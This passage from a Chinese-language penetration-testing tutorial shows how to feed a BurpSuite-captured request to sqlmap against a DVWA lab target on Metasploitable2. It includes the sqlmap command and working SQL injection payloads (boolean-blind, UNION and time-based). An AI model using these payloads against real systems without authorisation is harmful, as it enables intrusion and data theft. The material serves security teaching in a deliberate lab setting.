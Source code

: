 为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

为了在 sqlmap 中使用捕获的请求，必须首先将其保存为文本格式。为了这样做，右击 BurpSuite 中的请求内容之后选择`Copy to file`。保存之后，你就可以通过浏览器目录并使用`cat`命令来验证文件内容。

```
root@KaliLinux:~# cat dvwa_capture 
GET /dvwa/vulnerabilities/sqli_blind/?id=test_here&Submit=Submit HTTP/1.1
Host: 172.16.36.135 
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/dvwa/vulnerabilities/sqli_blind/ 
Cookie: security=low; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7b0c 
Connection: keep-alive 
```

为了使用捕获的请求，以 `-r`参数执行 sqlmap，值为文件的绝对路径。这个方式通常会极大降低在`sqlmap`命令中需要提供的信息量，因为需要提供的多数信息都包含在文件里了。看看下面的例子：

```
oot@KaliLinux:~# sqlmap -r /root/dvwa_capture --level=5 --risk=3 -p id
[*] starting at 16:44:09
[16:44:09] [INFO] parsing HTTP request from '/root/dvwa_capture' 
```

在上面的例子中，不需要向 sqlmap 传递任何 Cookie 值，因为 Cookie 值已经定义在捕获的请求中了。当 sqlmap 运行时，捕获文件中的 Cookie 会自动在所有请求中使用，像这样：

```
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N 
sqlmap identified the following injection points with a total of 487 HTTP(s) requests: 
--
Place: GET 
Parameter: id
    Type: boolean-based blind 
    title: "OR boolean-based blind - WHERE or HAVING clause    "
    Payload: id=-8210' OR (7740=7740) AND 'ZUCk'='ZUCk&Submit=Submit

    Type: UNION query    
    title: "MySQL UNION query (NULL) - 2 columns    "
    Payload: id=test_here' UNION ALL SELECT NULL,CONCAT(0x3a6f63723a,0x67 744e67787a6157674e,0x3a756c753a)#&Submit=Submit

    Type: AND/OR time-based blind    
    title: "MySQL < 5.0.12 AND time-based blind (heavy query)    "
    Payload: id=test_here' AND 4329=BENCHMARK(5000000,MD5(0x486a7a4a)) AND 'ARpD'='ARpD&Submit=Submit 
```

sqlmap 能够测试捕获请求中的所有识别的 GET 方法参数。这里，我们可以看到，`ID`参数存在多个 SQL 注入漏洞。

### 工作原理
